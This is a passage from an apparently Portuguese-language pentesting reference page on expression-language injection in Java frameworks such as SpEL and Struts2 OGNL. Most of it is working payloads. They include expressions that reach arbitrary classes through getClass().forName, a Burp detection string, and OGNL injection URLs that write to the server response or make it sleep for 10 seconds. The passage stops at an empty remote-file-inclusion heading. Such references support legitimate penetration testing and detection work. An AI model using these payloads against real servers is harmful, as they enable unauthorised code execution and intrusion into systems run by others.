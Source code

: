```java
{5*5}
[25]
```
Note como no exemplo anterior o termo `{5*5}` foi **avaliado**.

## **Tutorial Baseado em CVE**

Verifique neste **post:** [**https://xvnpw.medium.com/hacking-spel-part-1-d2ff2825f62a**](https://xvnpw.medium.com/hacking-spel-part-1-d2ff2825f62a)

## Payloads

### Ações básicas
```bash
#Basic string operations examples
{"a".toString()}
[a]

{"dfd".replace("d","x")}
[xfx]

#Access to the String class
{"".getClass()}
[class java.lang.String]

#Access ro the String class bypassing "getClass"
#{""["class"]}

#Access to arbitrary class
{"".getClass().forName("java.util.Date")}
[class java.util.Date]

#List methods of a class
{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
[public boolean java.util.Date.equals(java.lang.Object)]
```
### Detecção

* Detecção do Burp
```bash
gk6q${"zkz".toString().replace("k", "x")}doap2
#The value returned was "igk6qzxzdoap2", indicating of the execution of the expression.
```
* Detecção J2EE
```bash
#J2EEScan Detection vector (substitute the content of the response body with the content of the "INJPARAM" parameter concatenated with a sum of integer):
https://www.example.url/?vulnerableParameter=PRE-${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.print(new%20java.lang.Integer(829%2b9))%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}-POST&INJPARAM=HOOK_VAL
```
* Dormir 10 segundos
```bash
#Blind detection vector (sleep during 10 seconds)
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23kzxs%3d%40java.lang.Thread%40sleep(10000)%2c1%3f%23xx%3a%23request.toString}
```
### Inclusão Remota de Arquivo
```bash
```
